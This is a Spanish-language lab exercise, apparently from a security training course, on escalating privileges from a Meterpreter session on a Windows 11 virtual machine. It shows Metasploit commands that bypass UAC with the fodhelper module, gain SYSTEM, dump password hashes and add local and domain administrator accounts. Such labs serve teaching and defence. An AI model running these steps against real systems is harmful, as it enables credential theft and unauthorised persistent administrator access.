 # Elevar privilegios en una sesión de meterpreter.
      
Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Kali Linux***.
3. Máquina ***Windows 11***


Son muchas las técnicas que permiten ganar una shell inversa en la víctima, pero a menudo el actor de la almenaza tiene limitaciones, porque las acciones que puede ejecutar están limitadas al contexto de la credencial del usuario víctima, y no suele ser el administrador.

Otras veces el usuario tiene ***permisos de administrador***, porque es un administrador de IT, o simplemente porque se verifica una mala práctica de hacer a los usuarios administradores. No obstante esto no es una garantía, porque como bien sabemos, aun siendo administradores, si realizamos una acción delicada, ahí está la UAC para pedir confirmación. Esta petición no puede salvarla el actor de la amenaza desde una shell de ***meterpreter***. Veámoslo.

En este laboratorio veremos cómo es posible ganar la identidad del sistema (***SYSTEM/AUTHORITY***).

## Ejercicio 1: Ganar una sesión de meterpreter.

Necesitamos una shell de meterpreter sobre la víctima, así que volvemos a realizar el ***Ejercicio 1 del lab-06-C***.
   
Debe quedar tal que así.

![meterpreter](../img/lab-06-D/202209171909.png)

Comprobamos la identidad, así que en la consola de ***meterpreter*** escribimos.
```
getuid
```

Como se puede observar en la imagen, tenemos la identidad del usuario al que hemos hackeado.

![WS11\antonio](../img/lab-06-D/202209171911.png)

El módulo auxiliar ***smart_hashdump*** de ***Metasploit*** permite extraer los hashes de las cuentas de usuarios que han iniciado sesión en la víctima. En el prompt escribimos.
```
run post/windows/gather/smart_hashdump
```

El resultado es que no tenemos permiso para hacer eso.

![no permissions](../img/lab-06-D/202209171916.png)

***Meterpreter*** tiene un comando que intenta elevar privilegios, vamos a probarlo.
```
getsystem -t 1
```

No es posible.

![getsystem failed](../img/lab-06-D/202209171922.png)


## Ejercicio 2: Escalar privilegios y robar los hashes.

La sesión actual de ***meterpreter*** es la ***1***. Necesitamos ganar acceso al prompt de ***Metasploit***, pero no queremos cerrar la sesión. Vamos a ponerla en segundo plano. En el prompt escribimos.
```
background
```

Ahora volvemos a tener acceso a ***Metasploit***. 

Vamos a intentar saltarnos la ***UAC***. Para ello haremos uso del exploit ***bypassuac_fodhelper***, y lo haremos sobre la sesión 1 de meterpreter que tenemos disponible, es decir, un exploit sobre otro exploit.
```
use exploit/windows/local/bypassuac_fodhelper
```

A este módulo hay que indicarle que opere a través de la sesión que tenemos abierta con ***mepterpreter***, que es la ***1***.
```
set SESSION 1
```

A ver qué sucede.
```
exploit
```

Se determina que el usuario hackeado pertenece al grupo ***Administradores***. Entonces es posible saltarse la UAC.

![UAC bypass](../img/lab-06-D/202209171929.png)

En la nueva sesión de ***meterpreter***, la ***2***, vamos a intentar el escalado.
```
getsystem -t 1
```

Ahora somos el "Sistema" y por lo tanto no estamos sujetos a la UAC, que como su nombre indica es un control que se aplica a los usuarios.

![Got system](../img/lab-06-D/202209171929.png)

Comprobemos.
```
getuid
```

Ahora solo tenemos que intentar descargar los hashes. En el prompt escribimos.
```
run post/windows/gather/smart_hashdump
```

Como podemos ver, tenemos los hashes. Solo hay que tener suerte para reventarlos, pero ese es otro problema.

![Hashes](../img/lab-06-D/202209171940.png)


## Ejercicio 3: Crear un nuevo usuario local administrador.

Como parte del proceso de ganar acceso, y siendo el sistema (***SYSTEM/AUTHORITY***), podemos hacer lo que quereamos, por ejemplo crear un nuevo usuario.

Para ello, y a través de la sesión 2 de ***meterpreter*** invocamos una shell.
```
shell
```

En ella ejecutamos los siguientes comandos.
```
net user metasploit Pa55w.rd /add
```
```
net localgroup administrators metasploit /add
```

En la maquina ***Win 11*** puedes comprobar que efectivamente se creado el usuario.

![user created](../img/lab-06-D/202209171949.png)

Curiosidad. Si el usuario hackeado es administrador del dominio y te saltas la UAC como has aprendido, puedes crear usuarios nuevos en el dominio, que también pertenecerán al grupo de administradores del dominio, de la siguiente forma.

```
net user metasploit Pa55w.rd /add /domain

net group "Domain Admins" metasploit /add /domain
```

Aquí termina el lab. Reinicia la máquina ***Win 11*** y cierra todas las terminales de la máquina ***Kali***.



